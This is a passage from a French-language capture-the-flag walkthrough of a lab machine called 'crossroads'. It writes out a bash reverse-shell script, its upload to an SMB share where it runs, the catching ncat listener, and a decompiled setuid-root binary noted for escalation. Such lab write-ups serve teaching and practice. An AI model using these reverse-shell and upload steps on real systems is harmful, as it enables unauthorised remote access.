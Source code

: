 Maintenant passons à ce `magic script`. J'ai créé le script suivant :

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.1/9999 0>&1
```

Et dès que l'on lance l'upload du fichier :

```bash
$ smbclient -U albert //192.168.56.111/smbshare
Password for [WORKGROUP\albert]:
Try "help" to get a list of possible commands.
smb: \> put smbscript.sh
```

Le script est exécuté et me donne un reverse shell :

```bash
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.111.
Ncat: Connection from 192.168.56.111:53100.
bash: cannot set terminal process group (483): Inappropriate ioctl for device
bash: no job control in this shell
albert@crossroads:/home/albert/smbshare$ id
id
uid=1000(albert) gid=1000(albert) groups=1000(albert)
```

## Just debug it

Le binaire `beroot` vu plus tôt est setuid root :

```
-rwsr-xr-x 1 root   root    17K Mar  2  2021 beroot
```

Il est très basique comme le montre le code C décompilé par `Cutter` :

```c
/* jsdec pseudo code output */
/* /tmp/beroot @ 0x1145 */
#include <stdint.h>

int32_t main (void) {
    edi = 0;
    eax = 0;
    setuid ();
    rdi = "/bin/bash /root/beroot.sh";
    eax = 0;
    system ();
    eax = 0;
    return eax;
}
```
